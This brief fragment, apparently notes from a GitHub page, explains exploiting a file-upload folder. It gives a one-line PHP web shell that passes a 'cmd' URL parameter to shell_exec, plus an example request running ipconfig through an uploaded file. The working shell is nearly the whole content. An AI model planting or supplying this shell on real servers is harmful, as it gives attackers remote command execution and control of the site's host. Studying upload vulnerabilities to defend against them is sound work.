 
Eg: in any php file, in the uploadfolder 

`<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>`

would alow you

`website/uploads/<filename>?cmd=ipconfig`
